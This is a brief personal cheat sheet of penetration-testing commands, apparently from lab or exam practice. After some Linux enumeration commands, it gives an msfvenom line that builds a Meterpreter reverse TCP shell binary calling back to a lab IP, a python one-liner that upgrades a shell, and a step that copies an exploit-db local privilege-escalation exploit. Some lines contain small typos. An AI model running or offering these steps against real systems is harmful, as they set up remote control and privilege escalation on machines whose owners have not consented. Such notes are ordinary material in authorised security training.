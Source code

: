 # command_sheet

`netstat -antp | grep sshd`
` ss -lntu`

```shell

uname -a
uname -i can show architecture but sometimes unknown
ps aux
netstat antup
cat /etc/*-release
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.11.0.152 LPORT 4444 -f elf -o shell

python -c 'import pty;pty.spawn('/bin/sh')'

cp usr/share/exploitdb/platforms/linux/local/40611.c ```